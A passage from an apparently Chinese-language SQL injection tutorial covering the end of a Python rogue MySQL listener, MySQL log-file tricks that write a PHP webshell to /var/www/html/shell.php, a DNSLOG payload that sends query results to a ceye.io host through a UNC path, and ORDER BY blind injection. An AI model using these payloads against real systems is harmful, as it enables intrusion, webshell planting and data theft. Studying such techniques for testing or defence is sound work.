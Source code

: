 ```python

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)

z = mysql_listener()
daemonize()
asyncore.loop()
```

### 写日志法
由于`MySQL 5.5.53`版本之后, `secure-file-priv`的值默认为`NULL`, 这使得正常读取文件的操作基本不可行, 这里可以利用`MySQL`生成日志文件的方法来绕过.

`MySQL`日志文件的一些相关设置可以直接通过命令来进行, 之后再让数据库执行满足记录条件的恶意语句即可, 使用要求:
 - 可以进行日志的设置操作的权限.
 - 知道目标目录的绝对路径.

```sql
请求日志:
set global general_log_file = '/var/www/html/shell.php';
set global general_log = on;

慢查询日志:
set global slow_query_log_file='/var/www/html/shell.php'
set global slow_query_log = on;
set global log_queries_not_using_indexes = on;
```

## DNSLOG 外带数据
参考: [Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096).

这里推荐`ceye.io`, 这个平台就集成了`DNSLOG`的功能, 不需要自己搭建`DNS`服务器. `Payload`: `load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))`.

`DNSLOG`外带数据应用场景:
 - 三大注入无法使用.
 - 有文件读取权限及`secure-file-priv`无值.
 - 不知道网站/目标文件/目标目录的绝对路径.
 - 目标系统为`Windows`.

在`Windows`中, 路径以`\\`开头的路径在`Windows`中被定义为`UNC`路径, 相当于网络硬盘一样的存在, 所以填写域名的话, `Windows`会先进行`DNS`查询. 但是对于`Linux`并没有这一标准, 所以`DNSLOG`在`Linux`环境不适用.

## ORDER BY 比较盲注
`order by`比较盲注常用于字符截取/比较限制很严格的情况下. 例如: `select username,flag,password from users where username='$username;'`. 

`Payload`: `select username,flag,password from users where username='admin' union select 1,'a',3 order by 2;`, 通过判断前后两个`select`语句返回的数据前后顺序来进行盲注.
